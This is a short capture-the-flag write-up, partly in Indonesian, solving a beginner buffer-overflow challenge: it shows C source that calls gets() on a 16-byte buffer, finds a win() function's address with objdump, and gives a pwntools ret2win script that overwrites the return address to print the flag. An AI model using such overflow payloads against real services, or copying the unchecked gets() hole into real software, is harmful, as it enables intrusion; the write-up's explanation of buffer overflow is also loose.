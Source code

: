 # Is pwn really that easy?
> gacoan nya 1 mas
> nc minictf.ucs.or.id 2001

Author: mirai

Solve:

Jadi code Cnya seperti ini:
```
#include <stdio.h>
#include <signal.h>

void init()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void win()
{
    FILE *fp = fopen("/flag.txt", "r");
    char flag[256];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fclose(fp);
}

int main()
{
    init();
    char buffer[0x10];
    printf("input something here: ");
    gets(buffer);
    return 0;
}
```

As you can see, this is buffer overflow. What is that?
Buffer overflow is a vulnerability that written to a buffer also corrupts data values in memory addresses adjacent to the destination buffer due to insufficient bounds checking. So when on limits, it getting over and over untul it broke the limits and making
some data get leak. (i hope you can understand from what i'm saying). Lets get back to topic.

I use command `objdump -d ./easy | grep win` and the result `00000000004011d7 <win>:`. As i need it, i use chatgpt to making some exploit command to getting flag. Here the command:
```
from pwn import *

# Konfigurasi
host = "minictf.ucs.or.id"  # host 
port = 2001       # port challenge

# Alamat fungsi win (dari yang kamu kasih: 0x4011d7)
win_addr = 0x4011d7

# Offset buffer overflow (contoh: 0x18 = 24 byte, kalau beda tinggal adjust)
offset = 0x18

# Buat payload
payload = b"A" * offset
payload += p64(win_addr)

# Koneksi ke server
p = remote(host, port)
p.sendline(payload)
p.interactive()
```
So when i try to running it, here the result:

<img width="1402" height="199" alt="image" src="https://github.com/user-attachments/assets/a88d30f8-00f7-4a4d-b5d7-3293741abe3b" />

Then we got the flag~
```
Flag: UCS{kamu tau gak apa yang paling aku cintai dari dia. senyumnya, tawa nya serta karakter nya yang penuh semangat dan selalu membawa keceriaan di mana pun ia berada}
```
